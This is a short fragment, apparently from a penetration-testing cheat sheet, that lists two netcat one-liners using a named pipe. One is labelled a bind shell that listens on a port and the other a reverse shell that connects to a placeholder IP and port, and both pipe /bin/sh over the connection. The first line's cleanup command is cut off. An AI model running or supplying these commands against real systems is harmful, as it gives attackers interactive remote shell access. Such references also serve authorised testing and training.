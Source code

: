 - `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/` bind shell
- `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` reverse shell